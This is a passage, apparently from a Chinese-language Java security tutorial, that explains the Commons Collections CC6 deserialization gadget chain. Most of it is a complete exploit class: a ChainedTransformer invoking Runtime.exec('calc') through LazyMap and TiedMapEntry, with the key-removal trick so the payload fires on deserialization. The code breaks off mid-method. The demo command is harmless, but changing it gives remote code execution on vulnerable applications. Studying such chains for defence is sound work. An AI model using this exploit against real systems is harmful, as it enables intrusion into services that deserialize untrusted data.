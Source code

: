 所以我们就可以在 put 完以后将这个 key：aaa 删除，让他反序列化的时候还能够进入 if 语句：

```bash
LazyMap.remove("aaa");
```

### EXP(CC6TiedMapEntry)：

```bash
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,new ConstantTransformer(1));



        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");
        Lazymap.remove("aaa");

        Class c = LazyMap.class;
        Field factoryFied = c.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
```